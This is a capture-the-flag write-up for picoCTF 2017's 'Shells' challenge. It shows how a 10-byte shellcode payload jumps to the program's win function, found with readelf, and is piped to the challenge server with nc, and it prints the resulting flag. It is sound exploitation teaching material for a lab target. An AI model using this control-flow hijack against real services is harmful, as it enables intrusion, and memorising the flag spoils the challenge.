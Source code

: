 # Shells

> How much can a couple bytes do? Use shells! Source. Connect on shell2017.picoctf.com:55049.

Hints:

> Read about basic shellcode

> You don't need a full shell (yet...), just enough to get the flag

This time we can input only 10 bytes and we can't find any working execve shellcode of this length. However in the source we can see there's a function called win which prints us content of flag.txt.
We can jump to this function. To do this we can write it's address on the stack and then use `ret` which will 'return' to the address on the top of the stack.
To find out the address we can use `readelf` tool.
```
$ readelf shells -s
... (a lot of data)
    63: 00000000     0 FUNC    GLOBAL DEFAULT  UND __libc_start_main@@GLIBC_
    64: 08048670    97 FUNC    GLOBAL DEFAULT   13 __libc_csu_init
    65: 08048540    24 FUNC    GLOBAL DEFAULT   13 win
    66: 08049a68     0 NOTYPE  GLOBAL DEFAULT   25 _end
    67: 08048440     0 FUNC    GLOBAL DEFAULT   13 _start
... (a lot of data)
```

65th entry is our win function and `08048540` is it's address.
Now we can create the [payload](payload.asm) and connect to the server.

```
$ nasm payload.asm
$ cat payload | nc shell2017.picoctf.com 55049
My mother told me to never accept things from strangers
How bad could running a couple bytes be though?
Give me 10 bytes:
790fe1a8c59ae1e7607273ace0014dfc
```

The flag is `790fe1a8c59ae1e7607273ace0014dfc`.